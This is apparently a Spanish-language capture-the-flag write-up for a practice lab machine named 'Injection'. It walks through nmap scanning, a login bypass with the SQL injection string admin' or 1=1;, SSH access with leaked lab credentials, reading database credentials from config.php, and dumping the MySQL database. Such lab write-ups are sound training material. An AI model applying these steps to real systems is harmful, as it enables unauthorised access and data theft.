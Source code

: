 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: Son las 19:15 - 20:07 


Empezamos con un escaneo normal:
`nmap 172.17.0.3`
En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:
`nmap 172.17.0.3 -sV -p 22,80`

R:`PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
`

Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:
`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:
`ssh dylan@172.17.0.3 ` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:
`<?php
return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];
?>
` 

Intentaremos conectarnos con mysql utilizando esas credenciales:
`mysql -u root -ppaso`

Hacemos un:
`show databases;
 use register;
 select * from users;` 
Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:
`+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
` 

Era información que ya teniamos, pero probaremos lo siguiente:
`INSERT INTO users VALUES ('prueba','123456');
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba1';
`
Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:
`mysqldump --databases register -u root -ppaso > datos.sql`
Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 












